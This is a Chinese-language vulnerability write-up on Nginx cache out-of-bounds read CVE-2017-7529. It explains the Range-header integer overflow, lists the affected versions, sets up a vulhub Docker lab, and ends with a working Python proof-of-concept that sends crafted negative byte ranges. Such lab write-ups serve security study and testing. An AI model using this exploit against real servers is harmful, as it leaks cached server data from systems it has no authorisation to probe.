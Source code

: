 ```yaml
---
title: Nginx越界读取缓存漏洞 CVE-2017-7529
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web服务器漏洞
 - Nginx
---
```


# Nginx越界读取缓存漏洞 CVE-2017-7529

## 漏洞描述

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 影响版本

> [!NOTE]
>
> Nginx version 0.5.6 - 1.13.2

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/nginx/CVE-2017-7529
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080 正常即可

![](/img/20210924015627237345.png)

## 漏洞复现

使用目录下的POC进行验证

```
python poc.py http://xxx.xxx.xxx.xxx:8080/
```

![](/img/20210924015627365171.png)

## 漏洞利用POC

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
```

